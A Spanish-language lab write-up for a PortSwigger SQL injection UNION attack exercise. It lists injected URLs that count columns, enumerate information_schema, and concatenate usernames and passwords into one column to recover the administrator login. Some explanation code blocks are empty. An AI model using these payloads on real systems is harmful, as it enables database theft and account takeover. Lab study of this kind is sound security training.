 # `LAB`: SQL injection UNION attack, retrieving multiple values in a single column

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

Este laboratiorio es exactamente igual al mismo, en realidad "la diferencia" es que solicitan mostrar la información **en una sola columna** pero ese ejemplo también se vió en el anterior.

- Debido a que la vulnerabilidad está en 2 columnas `'1','2'` se pueden usar ambar para poner la información, por ejemplo `'1':username` y `'2':password`, pero también se pueden poner ambas en una sola columna utilizando técnicas como `CONCAT`, `GROUP_CONCAT`, `||`, etc...

- OJO!!! A diferencia del laboratorio anterior, este escenario no permite mostrar resultados en columna `'1'`, es por eso que inyecto los querys en `'2'` únicamente

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Lifestyle

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Lifestyle'

# Sanar el Query
.web-security-academy.net/filter?category=Lifestyle' -- -

# Contando Columnas en la tabla que estoy (total = 2)
.web-security-academy.net/filter?category=Lifestyle' order by 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

# Enum Databases:

## Opt1 - Dump: schema_name = DBs 
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. public]

# Enum Tables (TODAS):
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',table_name FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -

    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]

# Enum Columns:

## Opt1 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Columns = 1. password]
    ### [DUMP = Columns = 1. username]

# Dump Data:

    # Aqui solo podemos arrojar el resultado en una sola columna

    # Nota GROUP_CONCAT: Casualmente `' UNION SELECT group_concat(username,password),'2' FROM users -- -` da error, pero es comúnmente usada. 

## Opt1 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',concat(username,' ::: ',password) FROM users -- -
## Opt2 - Dump "username" + "password" (*STRING COCATENATION - Port Swigger cheatsheet - ||' ::: '||)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',username||' ::: '||password FROM users -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Data = administrator ::: 0x35tx3qbzk3re93pdog]



````

